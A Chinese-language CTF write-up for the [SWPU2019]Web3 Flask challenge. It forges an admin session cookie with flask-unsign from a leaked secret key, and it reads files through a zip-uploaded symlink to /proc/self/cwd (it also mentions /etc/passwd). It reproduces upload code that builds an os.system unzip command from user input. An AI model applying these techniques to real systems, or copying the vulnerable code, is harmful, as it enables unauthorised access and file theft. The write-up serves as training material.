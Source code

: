 # \[SWPU2019]Web3

## \[SWPU2019]Web3

## 考点

* Flask session伪造
* Linux命令
* `ln`命令新建"快捷方式"

## wp

标题flask-demo提示是个flask的框架

随便输入用户名和密码可以登录，然后回显用户名，这里可能有SSTI

![](<../../.gitbook/assets/image (8).png>)

点击upload提示`Permission denied!`，要进行flask session伪造，先试试SSTI，用户名输入`{{7*7}}`原样返回

![](<../../.gitbook/assets/image (7) (1).png>)

只能想其他办法获取`secret_key`，发现在404页面的返回头存在`Swpuctf_csrf_token`，为`U0VDUkVUX0tFWTprZXlxcXF3d3dlZWUhQCMkJV4mKg==`

![](<../../.gitbook/assets/image (1) (1).png>)

解码后为`SECRET_KEY:keyqqqwwweee!@#$%^&*`，然后重新加密session，内容是`{'id': b'1', 'is_login': True, 'password': '111', 'username': 'admin'}`

```
flask-unsign --secret "keyqqqwwweee!@#$%^&*" --sign --cookie "{'id': b'1', 'is_login': True,
'password': '111', 'username': 'admin'}"
```

得到`eyJpZCI6eyIgYiI6Ik1RPT0ifSwiaXNfbG9naW4iOnRydWUsInBhc3N3b3JkIjoiMTExIiwidXNlcm5hbWUiOiJhZG1pbiJ9.Ymz6jQ.Hk-k8PvafeNbp8uRfcuWnWVjJhA`

修改cookie可以访问`/upload`页面

在注释中找到代码

```python
@app.route('/upload',methods=['GET','POST'])
def upload():
    if session['id'] != b'1':
        return render_template_string(temp)
    if request.method=='POST':
        m = hashlib.md5()
        name = session['password']
        name = name+'qweqweqwe'
        name = name.encode(encoding='utf-8')
        m.update(name)
        md5_one= m.hexdigest()
        n = hashlib.md5()
        ip = request.remote_addr
        ip = ip.encode(encoding='utf-8')
        n.update(ip)
        md5_ip = n.hexdigest()
        f=request.files['file']
        basepath=os.path.dirname(os.path.realpath(__file__))
        path = basepath+'/upload/'+md5_ip+'/'+md5_one+'/'+session['username']+"/"
        path_base = basepath+'/upload/'+md5_ip+'/'
        filename = f.filename
        pathname = path+filename
        if "zip" != filename.split('.')[-1]:
            return 'zip only allowed'
        if not os.path.exists(path_base):
            try:
                os.makedirs(path_base)
            except Exception as e:
                return 'error'
        if not os.path.exists(path):
            try:
                os.makedirs(path)
            except Exception as e:
                return 'error'
        if not os.path.exists(pathname):
            try:
                f.save(pathname)
            except Exception as e:
                return 'error'
        try:
            cmd = "unzip -n -d "+path+" "+ pathname
            if cmd.find('|') != -1 or cmd.find(';') != -1:
				waf()
                return 'error'
            os.system(cmd)
        except Exception as e:
            return 'error'
        unzip_file = zipfile.ZipFile(pathname,'r')
        unzip_filename = unzip_file.namelist()[0]
        if session['is_login'] != True:
            return 'not login'
        try:
            if unzip_filename.find('/') != -1:
                shutil.rmtree(path_base)
                os.mkdir(path_base)
                return 'error'
            image = open(path+unzip_filename, "rb").read()
            resp = make_response(image)
            resp.headers['Content-Type'] = 'image/png'
            return resp
        except Exception as e:
            shutil.rmtree(path_base)
            os.mkdir(path_base)
            return 'error'
    return render_template('upload.html')


@app.route('/showflag')
def showflag():
    if True == False:
        image = open(os.path.join('./flag/flag.jpg'), "rb").read()
        resp = make_response(image)
        resp.headers['Content-Type'] = 'image/png'
        return resp
    else:
        return "can't give you"
```

session中的username为admin，password为111。

那这段代码就在说，先根据session中的username和password，以及IP地址生成上传目录，然后上传一个zip压缩包，对其进行解压，解压的文件名不能包含`/`，获得的第一个文件以图片形式展示。在`showflag()`中说明了flag的位置，但是不知道绝对路径。

如果使用`ln -s /proc/self/cwd/flag/flag.jpg test`新建一个指向`flag`的链接，再用`zip`压缩`test`文件，是不是就可以访问`flag`了，但是如果直接压缩不会保存连接符，要用`zip -y`参数

所以本题就是

1. `ln -s /proc/self/cwd/flag/flag.jpg test`
2. `zip -ry test.zip test`

再上传即可

![](<../../.gitbook/assets/image (6).png>)

## 小结

1. Linux下`/proc/self/cwd/`会指向进程的当前目录
2. `ln -s /etc/passwd test` 相当于新建一个链接到`/etc/passwd`的文件`test`，对`test`使用`cat`等命令会自动指向`/etc/passwd`
